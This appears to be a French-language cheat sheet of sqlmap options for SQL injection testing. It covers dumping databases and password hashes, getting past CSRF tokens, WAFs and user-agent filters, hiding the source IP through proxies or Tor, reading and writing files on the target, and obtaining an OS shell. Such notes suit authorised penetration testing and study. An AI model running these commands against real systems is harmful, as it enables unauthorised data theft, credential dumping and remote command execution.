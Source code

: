 # SQLMap

---
## Utilisation
* copier la requette dans le navigateur as curl
    ```bash
     # url
     -u <URL>  

     # skip user input by putting defauft
     --batch

     # pour trouver automatiquement les parametres
     --crawl, --forms 

     # specifier le cookie
     --cookie='<MonCookie>'

     # Header
     -H 'Cookie:<MonCookie>' 

     # enregistrer output
     -t <Path> 

     # verbose in terminal
     -v 6 

     # --host, --referer

     # specifier la methode
     --method <NomDeMethode ( PUT, GET ..)>
     
     # afficher les erreurs 
     --parse-errors

     # prefix
     --prefix="<Prefix>"
     
     # suffix
     --suffix="<Suffix>"
    ```

* cas d'un get, on peut fournir la data avec --data 
    ```bash
    sqlmap 'http://www.example.com/' --data 'uid=1&name=test'
    ```
* Indiquer si le parametre est vulnérable 
    ```bash
    # utiliser -p <parametre> ex : -p uid
    # utiliser * dans --data ex :
    sqlmap 'http://www.example.com/' --data 'uid=1*&name=test'
    ```

* copier des paramètres
    > utilisation des requettes burps à sauvegarder en txt
    ```bash
    sqlmap -r maRequette.txt
    ```

---
## Énumération de la base de données

```bash 
 # connect to db with credentials
 sqlmap -d '<mysql| dbName>://<UserName>:<Pass>@<IP>:<Port | 3306>/<dbName ( facultatif)>' --schema | grep Database:  | uniq

 # architecture de la db
 --schema 

 # version
 --banner 
 
 # be shure to have the correct content
 --no-cast

 # dumper la db
 --dump | --dump-format html

 # specifier l'user actuel
 --current-user 
 
 # specifier la db actuelle
 --current-db 

 # DUMP PASSWORDS 
 --passwords

 # enumerer toutes les tables
 --tables
 -D <dbName>

 # rechercher 
 --search <AutresTags: -T -C .. >
 # enumerer tout le contenu de la table
 -T <TableName>

 # enumerer des colonnes précises
 -C <ColName>

 # specifier les lignes
 --start=<Nbr> | --stop=<Nbr>

 # enumeration conditionnelle
 --where="<Condition"

 # tout dumper
 --dump-all

 # DO ALL AUTOMATICALY
 --all

 --union-cols=<NbrColonne>
```
---
## Bypassing Web Application Protections

```bash
# Anti-CSRF Token Bypass
--csrf-token="<NomVariableToken>"

# Unique Value Bypass
--randomize=<VarToRandomize>

# Calculated Parameter Bypass
--eval="import hashlib; h=hashlib.md5(id).hexdigest()"


# IP Address Concealing (cacher)
    # show list of proxy
    --proxy-file
    #concealing
    --proxy | --proxy="socks4://177.39.187.70:33283"
    # check if tor is installed
    --check-tor

# WAF Bypass
 --skip-waf

# User-agent Blacklisting Bypass
--random-agent

# Tamper Scripts : specifier un encodage spécifique : ex: space2comment, 
    # list of all temper 
    --list-tampers
    # usage
    --tamper=<tamperName> | --tamper "<tamperName>"

# Miscellaneous Bypasses : chuncked splits the POST request's body
--chunked
```
---
## OS Exploitation

###  File Read/Write
```bash
# Checking for DBA Privileges : si user est admin
--is-dba

# read file 
--file-read "<Path>"

# write file 
--file-write "<FileName>" --file-dest "<PathInTarget>"
```
### OS Command Execution
```bash
# get a reverse shell
--os-shell --technique=<techniqName | E >
```


    